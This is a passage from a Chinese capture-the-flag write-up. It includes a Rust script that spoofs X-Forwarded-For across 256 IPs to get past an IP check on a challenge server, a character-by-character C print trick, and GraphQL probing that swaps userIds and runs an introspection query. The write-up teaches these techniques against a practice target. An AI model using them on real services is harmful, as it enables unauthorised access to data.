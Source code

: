 ```rust invite.rs
use std::{thread, time::Duration};
fn main() {
    let client = reqwest::blocking::Client::new();
    for i in 0..=255 {
        let ip = format!("{}.241.53.1", i);
        let resp = client
            .post("http://202.38.93.111:10888/invite/uuid")
            .header("X-Forwarded-For", &ip)
            .header("Content-Type", "application/x-www-form-urlencoded")
            .body(format!("ip={}", ip))
            .send()
            .unwrap();
        println!("{}", resp.text().unwrap());
        thread::sleep(Duration::from_millis(1500))
    }
}
```

跑个几分钟就可得到 flag。

## Amnesia - 轻度失忆

搜索得知 `.data` 段用于存放已初始化的全局变量，而 `.rodata` 段用于存放常量数据，于是容易想到可以一个字符一个字符地打印。

```c amnesia_1.c
#include "stdio.h"
int main() {
    putchar('H'); putchar('e'); putchar('l'); putchar('l');
    putchar('o'); putchar(','); putchar(' '); putchar('w');
    putchar('o'); putchar('r'); putchar('l'); putchar('d');
    putchar('!');
}
```

## 图之上的信息

首先用测试账号登录，根据测试账号的笔记内容，结合题目中对 GraphQL 的描述，大致明白需要渗透 API 来获取 admin 账号的邮箱。

分析登录后界面的源代码，可以发现如下语句：

```javascript Source
axios.post("/graphql", {
    query: "{ notes(userId: 2) { id\ncontents }}"
})
```

从中可以看出 API 的路径、调用方法和参数。注意到 `guest` 的 `userId` 为 `2`，于是猜想 `admin` 的 `userId` 为 `1`。

更改 `userId` 并请求后，服务器返回了错误信息：`This user has no permission to access this.`

果然没有如此简单，那么我们进一步查找资料可以了解到 GraphQL 的安全问题：[内省系统][ql]。可以通过如下的 query 来查询 GraphQL 中所有可用的类型、查询及参数：

```graphql GraphQL Query
{
  __schema {
    types {
      name
      fields {
        name
        args {
          name
        }
      }
    }
  }
}
```


[arc]: https://web.archive.org/web/20181004003308/http://sec.ustc.edu.cn/doku.php/codes
[ustc]: https://lug.ustc.edu.cn/wiki/intro/
[ql]: https://graphql.cn/learn/introspection/